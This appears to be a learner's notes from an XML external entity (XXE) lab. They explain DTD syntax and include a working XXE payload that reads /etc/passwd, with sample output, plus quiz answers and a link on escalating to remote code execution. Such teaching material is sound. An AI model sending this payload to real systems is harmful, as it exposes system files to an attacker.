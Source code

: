 In the above example:

- !DOCTYPE note: this means there should be a root element `<note></note>`
- !ELEMENT note: this means the root `<note>` should have the children `<to><from><heading><body>`
- !ELEMENT to/from/heading/body: for each child, it should be of type `#PCDATA` (aka parsable character data)

[Link to DTD on w3schools](https://www.w3schools.com/xml/xml_dtd_intro.asp)

We can use internal DTD to fool some systems into accepting certain XML docs blindly without checking it.

In DTD, there's a keyword within `!ENTITY` called `SYSTEM` which can be used to make a parser check a file on the system for the DTD, but this can be exploited possibly to print any file on the victim's box.

```
<!DOCTYPE root [
<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
...
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/...
```

<small><a href="https://portswigger.net/web-security/xxe/xml-entities">More info here from Burp Suite</a></small>

### XML Questions

- Full form of XML [_extensible markup language_]
- Is it compulsory to have XML prolog in XML documents? [_no_]
- Can we validate XML documents against a schema? [_yes_]
- How can we specify XML version and encoding in XML document? [_xml prolog_]

### DTD Questions

- How do you define a new ELEMENT? [`!ELEMENT`]
- How do you define a ROOT element? [`!DOCTYPE`]
- How do you define a new ENTITY? [`!ENTITY`]

### Example

- Try to display your own name using any payload.
  - I thought this one was trying to get `whoami` to work or something. It's just the test payload. Though I [found some cool info about getting remote code execution if it's running PHP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing#remote-code-execution)

```xml
<!DOCTYPE replace [<!ENTITY name "Anomali"> ]>
 <userInfo>
  <firstName>Hello</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
